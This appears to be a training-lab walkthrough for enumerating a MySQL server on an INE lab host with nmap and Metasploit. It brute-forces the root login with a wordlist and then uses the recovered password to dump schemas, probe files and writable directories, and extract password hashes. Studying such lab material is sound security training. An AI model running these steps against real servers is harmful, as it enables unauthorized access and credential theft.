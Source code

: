 # MySQL Enumeration

1. Check if the target machine is reachable:
   ```
   ping -c 4 demo.ine.local
   ```
   ![image](https://github.com/user-attachments/assets/50e61342-4ea7-4e7a-987b-ce480d3d02cf)
   The target is reachable.

2. Run an nmap scan against the target:
   ```
   nmap demo.ine.local
   ```
   ![image](https://github.com/user-attachments/assets/254f59d7-72d8-4baa-9f6a-4820f7936855)
   MySQL service is running on the target.
   
3. Run the auxiliary/scanner/mysql/mysql_version module.
   ```
   msfconsole -q
   use auxiliary/scanner/mysql/mysql_version
   set RHOSTS demo.ine.local
   run
   ```
   ![image](https://github.com/user-attachments/assets/617f66eb-aef1-4194-8afc-42264bb3fd16)

4. Run the auxiliary/scanner/mysql/mysql_login module.
   ```
   use auxiliary/scanner/mysql/mysql_login
   set RHOSTS demo.ine.local
   set USERNAME root
   set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
   set VERBOSE false
   run
   ```
   ![image](https://github.com/user-attachments/assets/96f695ef-724f-4b50-beb1-2a9a4278ce74)

5. Run the auxiliary/admin/mysql/mysql_enum module.
   ```
   use auxiliary/admin/mysql/mysql_enum
   set USERNAME root
   set PASSWORD twinkle
   set RHOSTS demo.ine.local
   run
   ```
   ![image](https://github.com/user-attachments/assets/407b84e8-52ab-4180-8187-33213b922859)

6. Run the auxiliary/admin/mysql/mysql_sql module.
   ```
   use auxiliary/admin/mysql/mysql_sql
   set USERNAME root
   set PASSWORD twinkle
   set RHOSTS demo.ine.local
   run
   ```
   ![image](https://github.com/user-attachments/assets/b80b5404-c260-47f2-90cc-cc34f1dc6716)

7. Run the auxiliary/scanner/mysql/mysql_file_enum module.
   ```
   use auxiliary/scanner/mysql/mysql_file_enum
   set USERNAME root
   set PASSWORD twinkle
   set RHOSTS demo.ine.local
   set FILE_LIST /usr/share/metasploit-framework/data/wordlists/directory.txt
   set VERBOSE true
   run
   ```
   ![image](https://github.com/user-attachments/assets/eb1cf091-b35c-41b8-be4c-6507b27e0d61)

8. Run the auxiliary/scanner/mysql/mysql_hashdump module.
   ```
   use auxiliary/scanner/mysql/mysql_hashdump
   set USERNAME root
   set PASSWORD twinkle
   set RHOSTS demo.ine.local
   run
   ```
   ![image](https://github.com/user-attachments/assets/4db9d251-0240-446c-b495-8371b0c11b85)

9. Run the auxiliary/scanner/mysql/mysql_schemadump module.
   ```
   use auxiliary/scanner/mysql/mysql_schemadump
   set USERNAME root
   set PASSWORD twinkle
   set RHOSTS demo.ine.local
   run
   ```
   ![image](https://github.com/user-attachments/assets/6f795165-704a-45ed-87d6-7d76a7b3b9de)

10. Run the auxiliary/scanner/mysql/mysql_writable_dirs module.
    ```
    use auxiliary/scanner/mysql/mysql_writable_dirs
    set RHOSTS demo.ine.local
    set USERNAME root
    set PASSWORD twinkle
    set DIR_LIST /usr/share/metasploit-framework/data/wordlists/directory.txt
    run
    ```
    ![image](https://github.com/user-attachments/assets/7c005ba5-5cf8-4b7e-9669-b5c03511583d)









